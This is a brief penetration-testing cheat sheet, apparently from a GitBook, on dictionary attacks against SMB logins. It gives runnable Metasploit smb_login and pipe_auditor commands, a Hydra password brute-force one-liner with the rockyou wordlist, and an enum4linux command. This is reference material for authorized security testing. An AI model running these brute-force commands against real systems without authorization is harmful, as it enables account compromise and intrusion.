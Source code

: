 # Dictionary Attack

This module will test an SMB login on a range of machines and report successful logins. If you have loaded a database plugin and connected to a database this module will record successful logins and hosts so you can track your access.

## Metasploit

```bash
msfconsole
use auxiliary/scanner/smb/smb_login 
set rhosts $IP
set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
set smbuser $USER_NAME # first there`s a need to enumerate some users
run
```

## Hydra

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP smb
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

## SMB pipes

```bash
msfconsole
use auxiliary/scanner/smb/pipe_auditor
set smbuser $USER_NAME
set smbpass $PASSWORD
set rhosts $IP
run
```

## enum4linux

```bash
enum4linux -r -u "$USER_NAME" -p "$PASSWORD"
```
